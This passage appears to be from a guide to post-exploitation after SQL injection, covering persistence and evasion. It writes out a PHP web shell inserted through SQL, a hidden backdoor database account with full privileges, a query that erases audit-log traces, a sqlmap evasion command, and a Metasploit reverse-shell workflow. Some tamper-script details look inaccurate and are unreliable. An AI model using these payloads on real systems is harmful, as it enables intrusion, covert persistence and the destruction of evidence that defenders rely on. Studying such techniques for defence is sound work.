 #### **3. Web Shells**  
- **Example (MySQL)**:  
  ```sql  
  INSERT INTO articles (content) VALUES ('<?php system($_GET["cmd"]); ?>');  
  ```  
  Access the shell via `http://target.com/display_article.php?id=InjectedID`.  

| **Persistence Method** | **Database** | **Execution Trigger** |  
|-------------------------|--------------|-----------------------|  
| Stored Procedures       | MSSQL, Oracle | Direct SQL execution   |  
| Scheduled Jobs          | Oracle, PostgreSQL | Cron/DB Scheduler |  
| Web Shells              | All          | HTTP requests         |  

---

### **Maintaining Access**  
Attackers ensure continued control through stealthy tactics:  

#### **1. Backdoor Accounts**  
- **Example (MySQL)**:  
  ```sql  
  CREATE USER 'maintainer'@'%' IDENTIFIED BY 's3cr3t';  
  GRANT ALL PRIVILEGES ON *.* TO 'maintainer'@'%';  
  ```  
  The account is named to blend with legitimate users (e.g., `backup_user` or `cronjob`).  

#### **2. Audit Log Manipulation**  
- **Example (PostgreSQL)**:  
  ```sql  
  DELETE FROM pg_log WHERE log_line LIKE '%SQLi%';  
  ```  
  Attackers erase traces of their activities from logs.  

---

### **Tool-Assisted Evasion**  
Automated tools streamline evasion and persistence:  

#### **SQLMap Tamper Scripts**  
- **space2comment.py**: Replaces spaces with SQL comments (` ` → `/* */`).  
- **multipart_encoder.py**: Splits payloads into multipart HTTP requests.  
- **Example Command**:  
  ```bash  
  sqlmap -u "http://target.com" --tamper=space2comment.apostrophenullencode  
  ```  

#### **Metasploit Modules**  
- **Module**: `exploit/multi/handler` with encrypted payloads.  
- **Example Workflow**:  
  1. Use SQLi to upload a Meterpreter payload via UDF injection.  
  2. Establish a reverse shell with encrypted C2 communication.  

---